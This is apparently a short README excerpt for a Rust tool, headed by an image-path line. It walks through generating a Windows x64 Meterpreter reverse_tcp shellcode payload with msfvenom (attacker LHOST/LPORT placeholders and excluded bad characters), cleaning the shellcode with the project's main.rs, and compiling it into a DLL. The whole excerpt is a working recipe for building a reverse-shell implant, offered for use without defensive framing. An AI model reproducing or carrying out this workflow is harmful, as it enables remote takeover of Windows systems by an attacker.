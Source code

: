 ### Usage with msfvenom

Generate a payload specifying bad characters.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f c -b '\x00\x0a\x0d\x20'
```

Take OutPut from msfvenom and paste into `main.rs` to clean up shellcode

```
cargo run 
```

Take cleaned up output and paste shellcode into `lib.rs` and build to DLL

```
cargo build --release
```
